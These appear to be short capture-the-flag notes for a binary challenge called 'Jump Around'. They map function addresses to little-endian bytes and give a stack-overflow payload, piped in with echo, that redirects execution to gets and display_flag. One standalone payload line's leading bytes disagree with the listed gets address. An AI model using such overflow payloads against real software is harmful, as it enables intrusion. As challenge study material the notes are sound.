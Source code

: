 # Jump Around
gets ==> 08049050 ==> 50900408 ==> \x50\x90\x04\x08
memory start ==> 0804c03d ==> 3dc00408 ==> \x3d\xc0\x04\x08
display_flag ==> 08049276 ==> 76920408 ==> \x76\x92\x04\x08

AAAAAAAAAAAAAAABBBBCCCCDDDDD
\x09\xd0\x04\x08\x76\x92\x04\x08\x3d\xc0\x04\x08\n123\n

echo -e -n 'AAAAAAAAAAAAAAABBBBCCCCDDDDD\x50\x90\x04\x08\x76\x92\x04\x08\x3d\xc0\x04\x08\n123\n' | ./jump_around
